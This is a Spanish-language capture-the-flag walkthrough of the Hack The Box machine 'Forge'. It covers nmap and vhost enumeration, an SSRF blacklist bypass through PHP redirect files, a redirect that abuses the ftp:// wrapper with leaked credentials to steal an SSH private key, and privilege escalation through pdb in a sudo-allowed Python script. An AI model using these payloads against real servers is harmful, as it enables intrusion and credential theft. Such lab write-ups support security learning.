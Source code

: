 ```yaml
---
title: Forge
date: 2022-07-31 13:25:30 +/-TTTT
categories: [HTB MACHINES, Linux]
tags: [ftpwrapper, ssrf, redirectphp, pdb]     # TAG names should always be lowercase
---
```


```shell 
 nmap -sCV -p22,80 10.10.11.111 -oN targeted
Starting Nmap 7.92 ( https://nmap.org ) at 2022-10-01 22:16 CDT
Nmap scan report for 10.10.11.111
Host is up (0.087s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 4f:78:65:66:29:e4:87:6b:3c:cc:b4:3a:d2:57:20:ac (RSA)
|   256 79:df:3a:f1:fe:87:4a:57:b0:fd:4e:d0:54:c6:28:d9 (ECDSA)
|_  256 b0:58:11:40:6d:8c:bd:c5:72:aa:83:08:c5:51:fb:33 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Did not follow redirect to http://forge.htb
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.73 seconds
```
Nos encontramos con una página web que no contiene nada en especial, por lo que procedemos a hacer `fuzzing` para encontrar nuevas rutas.

```shell
gobuster vhost -t 200 dir -w /usr/share/Seclists/Discovery/DNS/subdomains-top1million-110000.txt -u "http://forge.htb" -r
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:          http://forge.htb
[+] Method:       GET
[+] Threads:      200
[+] Wordlist:     /usr/share/Seclists/Discovery/DNS/subdomains-top1million-110000.txt
[+] User Agent:   gobuster/3.1.0
[+] Timeout:      10s
===============================================================
2022/10/02 21:45:39 Starting gobuster in VHOST enumeration mode
===============================================================
Found: admin.forge.htb (Status: 200) [Size: 27]
```

![imagen1](/assets/images/forge1.png)

Al subir un archivo, nos lo guarda en una ruta especial, intentando apuntar al localhost de la máquina víctima vemos que tiene una blacklist que lo impide. Este bypass se puede lograr mediante
un redireccionamiento hacia `http://admin.forge.htb` por lo que procedemos a crear un archivo en php que contenga lo siguiente.

```php
<?php

header("Location: http://admin.forge.htb/");

?>
```

Subimos el archivo y vemos que se hizo el redireccionamiento con éxito.

```shell
sudo php -S 0.0.0.0:80
[Sun Oct  2 22:01:02 2022] PHP 7.4.30 Development Server (http://0.0.0.0:80) started
[Sun Oct  2 22:01:18 2022] 10.10.11.111:56246 Accepted
[Sun Oct  2 22:01:18 2022] 10.10.11.111:56246 [302]: GET /prueba.php
[Sun Oct  2 22:01:18 2022] 10.10.11.111:56246 Closing

```

![imagen2](/assets/images/forge2.png)

```shell
curl -s http://forge.htb/uploads/5loVaAlU86Ay1jJGpzuE
<!DOCTYPE html>
<html>
<head>
    <title>Admin Portal</title>
</head>
<body>
    <link rel="stylesheet" type="text/css" href="/static/css/main.css">
    <header>
            <nav>
                <h1 class=""><a href="/">Portal home</a></h1>
                <h1 class="align-right margin-right"><a href="/announcements">Announcements</a></h1>
                <h1 class="align-right"><a href="/upload">Upload image</a></h1>
            </nav>
    </header>
    <br><br><br><br>
    <br><br><br><br>
    <center><h1>Welcome Admins!</h1></center>
</body>
</html>
```
Con esto obtenemos dos rutas nuevas, Announcements y Upload, por lo que procedemos con la misma técnica `SSRF`

```shell
curl -s http://forge.htb/uploads/ecA53NvHHvQJANQ6nq9o
<!DOCTYPE html>
<html>
<head>
    <title>Announcements</title>
</head>
<body>
    <link rel="stylesheet" type="text/css" href="/static/css/main.css">
    <link rel="stylesheet" type="text/css" href="/static/css/announcements.css">
    <header>
            <nav>
                <h1 class=""><a href="/">Portal home</a></h1>
                <h1 class="align-right margin-right"><a href="/announcements">Announcements</a></h1>
                <h1 class="align-right"><a href="/upload">Upload image</a></h1>
            </nav>
    </header>
    <br><br><br>
    <ul>
        <li>An internal ftp server has been setup with credentials as user:heightofsecurity123!</li>
        <li>The /upload endpoint now supports ftp, ftps, http and https protocols for uploading from url.</li>
        <li>The /upload endpoint has been configured for easy scripting of uploads, and for uploading an image, one can simply pass a url with ?u=&lt;url&gt;.</li>
    </ul>
</body>
</html>               
```
Encontramos una usuario y contraseña para ftp, también podemos ver que tenemos una manera de subir una imagen con `?u=` en la url

Para eso usamos el wrapper `ftp://` para traer un arhivo de la máquina víctima con el usuario y contraseña.

```php
<?php

header("Location: http://admin.forge.htb/upload?u=ftp://user:heightofsecurity123!@127.0.0.1/.ssh/id_rsa");

?>
```
Con esto pudimos obtener la id_rsa del usuario `user` y estamos dentro.

## Escalada

Aquí vemos que tenemos permisos de ejecutar un script como root.

```shell
sudo -l
Matching Defaults entries for user on forge:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User user may run the following commands on forge:
    (ALL : ALL) NOPASSWD: /usr/bin/python3 /opt/remote-manage.py
```
```python
#!/usr/bin/env python3
import socket
import random
import subprocess
import pdb

port = random.randint(1025, 65535)

try:
    sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    sock.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
    sock.bind(('127.0.0.1', port))
    sock.listen(1)
    print(f'Listening on localhost:{port}')
    (clientsock, addr) = sock.accept()
    clientsock.send(b'Enter the secret passsword: ')
    if clientsock.recv(1024).strip().decode() != 'secretadminpassword':
        clientsock.send(b'Wrong password!\n')
    else:
        clientsock.send(b'Welcome admin!\n')
        while True:
            clientsock.send(b'\nWhat do you wanna do: \n')
            clientsock.send(b'[1] View processes\n')
            clientsock.send(b'[2] View free memory\n')
            clientsock.send(b'[3] View listening sockets\n')
            clientsock.send(b'[4] Quit\n')
            option = int(clientsock.recv(1024).strip())
            if option == 1:
                clientsock.send(subprocess.getoutput('ps aux').encode())
            elif option == 2:
                clientsock.send(subprocess.getoutput('df').encode())
            elif option == 3:
                clientsock.send(subprocess.getoutput('ss -lnt').encode())
            elif option == 4:
                clientsock.send(b'Bye\n')
                break
except Exception as e:
    print(e)
    pdb.post_mortem(e.__traceback__)
finally:
    quit()
```

En este archivo encontramos una contraseña y `pdb` que mediante un error en el input podemos mandarnos el pdb y así poder ejecutar comando como root.

```python

import os

os.system("chmod g+s /bin/bash")

```
